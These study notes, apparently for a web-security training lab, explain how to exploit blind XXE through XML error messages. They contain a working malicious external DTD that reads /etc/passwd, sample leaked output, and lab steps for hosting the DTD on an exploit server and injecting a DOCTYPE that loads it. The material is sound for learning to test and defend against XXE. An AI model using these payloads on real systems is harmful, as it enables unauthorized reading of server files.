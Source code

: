 ## Introduction
- An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve.
- This will be effective if the application returns the resulting error message within its response.

**You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:**
```python
`<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> 
%eval; 
%error;
```
1. **Defining Entities:**
    
    - The code defines an XML parameter entity called `file`, which contains the content of the `/etc/passwd` file.
    - It defines another parameter entity called `eval`, which contains a dynamic declaration for yet another parameter entity named `error`. The `error` entity will attempt to load a nonexistent file, using the value from the `file` entity.
2. **Triggering the Attack:**
    
    - The `%eval;` part triggers the dynamic declaration of the `error` entity.
    - The `%error;` part triggers the evaluation of the `error` entity. This results in an attempt to load a nonexistent file with a name constructed from the value of the `file` entity.
3. **Attack Outcome:**
    
    - Since the `file` entity contains the content of `/etc/passwd`, the constructed nonexistent file name contains the content of the `/etc/passwd` file.
    - The XML processor tries to load the nonexistent file, resulting in an error message. This error message will include the content of the `/etc/passwd` file, revealing sensitive system information.

**Invoking the malicious external DTD will result in an error message like the following:**
```python
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
...
```
## Steps to solve lab
### Desc - Exploiting blind XXE to retrieve data via error messages
**Our end goal** - To solve the lab, use an external DTD to trigger an error message that displays the contents of the `/etc/passwd` file.

1. First host your malicious `.dtd` file in the exploit server and take a note of that url.
![[XXE19.png]]

2. Now, grab the `POST /product/stock` and send it to burp repeater.
![[XXE20.png]]

3. Insert the following external entity definition in between the XML declaration and the `stockCheck` element:
`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`
![[XXE21.png]]
